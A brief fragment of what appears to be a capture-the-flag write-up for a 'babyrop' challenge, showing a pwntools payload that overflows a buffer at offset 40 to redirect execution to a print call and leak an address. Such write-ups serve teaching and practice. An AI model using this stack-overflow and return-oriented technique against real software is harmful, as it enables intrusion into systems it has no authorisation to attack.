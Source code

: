 ![Pasted image 20250716074707](assets/images/SmileyCTF-babyrop/Pasted%20image%2020250716074707.png)

### The problem of $rbp

Updated payload

```python
print_addr = 0x404010
print_call = 0x401211

payload = flat({
    0: [
        print_addr
        ],
    40:[
        print_call
      ]
    })

io.sendline(payload)
```
